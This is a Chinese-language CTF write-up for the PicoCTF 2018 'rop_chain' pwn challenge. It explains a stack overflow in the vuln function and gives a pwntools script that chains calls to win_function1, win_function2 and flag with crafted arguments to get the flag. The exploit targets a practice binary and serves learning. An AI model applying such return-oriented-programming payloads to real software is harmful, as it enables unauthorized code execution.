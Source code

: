 ```yaml
---
title: 'PicoCTF_2018_rop_chain'
date: 2023-12-30 13:00:00 +0800
categories: ['函数参数劫持','整数型绕过','`\x00`绕过`len()`']
tags: [ctf,pwn]
---
```

<img src="../assets/img/old_imgs/image-20231223201523448.png" alt="image-20231223201523448" style="zoom:150%;" />

1. 函数`vuln`中存在栈溢出

![image-20231223201440814](../assets/img/old_imgs/image-20231223201440814.png)

2. `flag`是后门函数,只要满足`win1 && win2`和`a1 = 0xDEADBAAD`就可以得到`flag`

![image-20231223201807526](../assets/img/old_imgs/image-20231223201807526.png)

3.`win1 & win2`存在于`.bss`段上,但是可以利用`win_function1 & win_function2`两个函数构造

<img src="../assets/img/old_imgs/image-20231223202105353.png" alt="image-20231223202105353"  />

> win1

<img src="../assets/img/old_imgs/image-20231223202117211.png" alt="image-20231223202117211" style="zoom:67%;" />

> win2

```python
from pwn import *
#context.log_level = 'debug'
#io = gdb.debug('./PicoCTF_2018_rop_chain','break *080485CB')
io = process('./PicoCTF_2018_rop_chain')
offset = 0x18+4
elf = ELF('./PicoCTF_2018_rop_chain')
payload1 = b'A'*offset+p32(elf.sym['win_function1'])+p32(elf.sym['win_function2'])+p32(elf.sym['flag'])+p32(0xBAAAAAAD)+p32(0xDEADBAAD)
#溢出专跳到`win_function1`初始化win1,再到`win_function2`同时传入覆盖`win_function2`的参数a,最后跳转到`flag`函数相同操作
io.sendlineafter(b'Enter your input>',payload1)
io.interactive()
```
